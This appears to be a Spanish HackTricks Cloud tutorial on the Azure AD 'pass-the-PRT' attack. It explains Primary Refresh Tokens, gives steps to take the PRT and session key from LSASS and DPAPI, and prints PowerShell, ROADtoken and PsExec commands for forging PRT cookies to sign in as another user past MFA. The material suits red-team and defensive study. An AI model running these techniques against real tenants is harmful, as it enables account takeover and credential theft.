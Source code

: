 # Az - Pasar el PRT

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## ¿Qué es un PRT?

Un **Primary Refresh Token (PRT)** se utiliza para proporcionar una experiencia de **inicio de sesión único (SSO)** para los usuarios de Windows 10 y sistemas operativos móviles.

Cuando inicias sesión en un dispositivo que admite este SSO, Windows se **comunica con el proveedor de autenticación en la nube, valida** tus credenciales y **devuelve** el **PRT y una clave de sesión**. El **PRT se almacena en LSASS**, y la **clave de sesión se vuelve a cifrar** con el TPM local del dispositivo y luego se almacena junto con el PRT.

Luego, cuando el **navegador** intenta acceder a recursos en la nube, se utiliza una **cookie PRT** para acceder a ellos.

Una vez emitido, un **PRT** es **válido** durante **14 días** y se **renueva continuamente** siempre que el usuario use activamente el dispositivo. Un PRT solo tiene **reclamaciones MFA** si al acceder a RDP se utiliza **Windows Hello** o **Windows Account Manager**.

Se puede utilizar para obtener tokens de acceso y actualización para cualquier aplicación.

Para obtener más información sobre cómo funciona esto, lee la [**documentación**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token) o [**esta página**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/).

### Comprobar si tienes un PRT

```
Dsregcmd.exe /status
```

En la sección Estado de SSO, deberías ver que **`AzureAdPrt`** está establecido en **YES**.

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

En la misma salida, también puedes ver si el **dispositivo está unido a Azure** (en el campo `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pasar el PRT

### Pasos

1. **Extraer** el **PRT de LSASS** y guardarlo para más tarde.
2. **Extraer** la **clave de sesión**. Si recuerdas, esto se emite y luego se cifra de nuevo por el dispositivo local, por lo que necesitamos **descifrar esto usando una clave maestra DPAPI**. Para obtener más información sobre DPAPI, consulta este enlace de [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) o el ataque de [**Pass-the-cookie**](az-pass-the-cookie.md).
3. Usando la clave de sesión descifrada, obtendremos la clave derivada para el PRT y el contexto. Esto es necesario para **crear nuestra cookie PRT**. La clave derivada es lo que se utiliza para firmar el JWT para la cookie. Dirk-jan hizo un gran trabajo explicando este proceso [aquí](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

Ahora tenemos todo lo que necesitamos para firmar nuestras propias cookies PRT y el resto de estos pasos se pueden hacer desde cualquier otro sistema.

* Usaremos el PRT, la clave derivada y el contexto para crear una nueva cookie PRT.
* Importa la cookie en tu sesión del navegador (usaremos Chrome)
* ¡Eso es todo! Ahora deberías estar autenticado como ese usuario sin tener que conocer su contraseña o manejar ninguna solicitud de MFA.

### Ataque - Roadtoken

Para obtener más información sobre esta forma, [**consulta esta publicación**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). Para generar una cookie PRT válida, lo primero que necesitas es un nonce.\
Puedes obtener esto con:

```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

O usando [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```powershell
roadrecon auth prt-init
```

Luego puedes usar [**roadtoken**](https://github.com/dirkjanm/ROADtoken) para obtener un nuevo PRT (ejecútalo en la herramienta desde un proceso del usuario a atacar):

```powershell
.\ROADtoken.exe <nonce>
```

Como un solo comando:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Luego puedes usar la **cookie generada** para **generar tokens** para **iniciar sesión** usando Azure AD **Graph** o Microsoft Graph:
## Referencias

* Este post fue en su mayoría extraído de [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a **tu empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>